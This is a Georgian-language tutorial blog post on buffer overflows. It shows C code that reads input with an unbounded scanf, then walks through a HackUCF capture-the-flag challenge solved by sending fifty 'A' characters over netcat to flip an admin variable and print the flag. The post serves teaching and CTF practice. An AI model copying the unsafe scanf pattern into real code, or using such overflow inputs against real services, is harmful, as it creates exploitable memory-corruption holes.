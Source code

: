 ```yaml
---
title: "Buffer Overflow ქართულად"
date: 2024-12-23 00:00:00 -0800
categories: Explanations, ქართულად
tags: ახსნა, ქართულად, tutorials, explanaton
---
```


# რა არის Buffer?

Buffer არის ინფორმაციის შენახვის ადგილი კომპიუტერის მეხსიერებაში, რომელიც გამოიყენება მონაცემთა დამუშავებისთვის და მონაცემთა შესანახად.

მაგალითად ავიღოთ კოდი:

```c
#include <stdio.h>

int main() {
    char name[5];
    
    printf("სახელი: ");
    scanf("%s", name);
    
    printf("გამარჯობა, %s\n", name); 
    return 0;
}
```

ამ შემთხვევაში, Buffer არის name, რომელელშიც შეგვიძლია შევინახოთ მაქსიმუმ 5 სიმბოლო.

# რა არის Buffer Overflow?

Buffer Overflow არის შეხწევადობა რომელიც მაქსიმუმ ინფორმაციაზე მეტის შეტანის შემდეგ ხდება. მაგალითად შეგვიძლია ავიღოთ სათლი და დავიწყოთ მაში წყლის ჩასხმა. თუ ლიმიტზე მეტ წყალს ჩავასხავთ, წყალლი სათლიდან გადმოსვლას დაიწყებს.

ამ შემთხვევაში, ჩვენ თუ შევიტანთ ლიმიტზე მეტ ინფორმაციას, ჩვენი პროგრამა ვერ იმუშავებს ისე როგორც უნდა ემუშავა.

პროგრამამ უნდა იმუშავოს ასე:

```sh
jstr$ gcc main.c
jstr$ ./a.out
სახელი: test1
გამარჯობა, test1
```

თუ შევიტანთ 5ზე მეტ სიმბოლოს, გვექნება ასეთი შედეგი:

```
jstr$ ./a.out
სახელი: Jester
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

`stack smashing detected` ნიშნავს რომ კომპაილერმა (ამ შემთხვევაში gcc-მ) შეამჩნია რომ Buffer Overflow მოხდა, და კოდის ტერმინაცია მოახდინა.

# Buffer Overflow-ს გამოყენება

მაგალითად გამოვიყენებთ HackUCF-ის ამოცანას:

```
Pwn that buffer!

nc ctf.hackucf.org 9000
```

მიბმულია ორი ფაილი, bof1 და bof1.c

გავუშვათ Net Cat:

```
jstr$ nc ctf.hackucf,org 9000

test
Nope!
```

`test` ის შეტანის დროს პასუხად გამოიტანა `Nope!`. მოდით შევხედოთ C ფაილს.

```c
#include <stdio.h>
#include <stdlib.h>

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

int main(void) {
	int admin = 0;
	char buf[32];
	
	scanf("%s", buf);
	
	if(admin) {
		win();
	}
	else {
		puts("nope!");
	}
	
	return 0;
}
```

რადგანაც `buf`-ს აქვს 32 სიმბოლოს ლიმიტი, ჩვენ უნდა შევიტანოთ 32 სიმბოლოზე მეტი.

```
jstr$ python3
Python 3.13.1 (tags/v3.13.1:0671451, Dec  3 2024, 19:06:28) [MSC v.1942 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> print('A'* 50)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

(Python-ს იმიტომ ვიყენებ რომ დათვლა მეზარება T_T )

კიდევ ერთხელ გამოვიყენოთ NetCat :
```
jstr$ nc ctf.hackucf.org 9000
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
flag{my_first_buffer_overflow!}
```


